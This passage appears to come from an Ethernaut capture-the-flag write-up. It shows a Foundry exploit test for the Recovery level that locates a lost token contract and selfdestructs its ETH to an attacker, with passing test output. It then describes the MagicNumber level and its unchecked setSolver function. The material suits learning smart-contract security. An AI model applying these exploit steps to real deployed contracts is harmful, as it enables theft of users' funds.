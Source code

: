 ``` solidity
```

### 🧪 Exploit Test
``` solidity
function test_attack() public {
    address lostToken = computeAddress(address(recovery), 1);//find the address

    uint256 attackerBefore = attacker.balance;//check the balance

    vm.prank(attacker);
    SimpleToken(payable(lostToken)).destroy(payable(attacker));//money credit to the attacker account

    uint256 attackerAfter = attacker.balance;

    console.log("Attacker ETH before:", attackerBefore);
    console.log("Attacker ETH after: ", attackerAfter);
    assertGt(attackerAfter, attackerBefore); // ensure attacker received ether
}
```
### 📋 Test Output

``` text
[PASS] test_attack() (gas: 25440)

Logs:
  Attacker ETH before: 100000000000000000000
  Attacker ETH after:  101000000000000000000

Traces:
  RecoveryTest::test_attack()
    ├─ VM::prank(attacker)
    ├─ SimpleToken::destroy(attacker)
    │   └─ [SelfDestruct] — ETH sent to attacker
    ├─ console.log(...)
    └─ assertGt(attackerAfter, attackerBefore)
```
---
### Level 19: MagicNumber

**AttackDesc:**
The contract allows setting a solver address that is expected to return the number 42 when called via staticcall. However, no validation is done on the logic inside the solver. An attacker can deploy a hand-crafted minimal contract using raw EVM bytecode that always returns 42 regardless of input. A hidden constraint (present in the original Ethernaut challenge but not in the simplified local version) is that the runtime bytecode must be ≤ 10 bytes. If the contract's code exceeds 10 bytes, the challenge reverts, requiring extremely optimized bytecode logic.
### 🔍 Vulnerable Function
``` solidity
function setSolver(address _solver) public {
    solver = _solver;
}
```
No checks on the size or logic of the solver contract.
